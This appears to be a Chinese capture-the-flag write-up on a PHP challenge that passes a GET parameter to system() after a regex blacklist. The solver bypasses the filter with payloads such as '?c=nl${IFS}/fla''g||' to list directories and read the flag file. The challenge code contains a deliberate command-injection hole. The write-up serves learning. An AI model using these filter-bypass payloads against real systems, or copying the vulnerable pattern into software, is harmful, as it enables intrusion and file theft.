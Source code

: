 ```php
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

发现又过滤了 <>  但是把我们的 $放出来了

这里我们首先先看看ls

```r
?c=ls||
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/20c6dd8a7d12328fcc135215438f7fbc.png" alt="" style="max-height:161px; box-sizing:content-box;" />


直接访问一下flag.php

```bash
/?c=nl${IFS}fla''g.php||
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/968cef323935620621b8ff858af0eab0.png" alt="" style="max-height:223px; box-sizing:content-box;" />


发现没有

我们看看根目录

```bash
?c=ls${IFS}/||
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/320629d72826b4b7ff7eecb01b1a9ee5.png" alt="" style="max-height:108px; box-sizing:content-box;" />


发现了flag

直接访问

```bash
?c=nl${IFS}/fla''g||
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2e2d159e0234670becc8fbe1d8f7e4b8.png" alt="" style="max-height:192px; box-sizing:content-box;" />

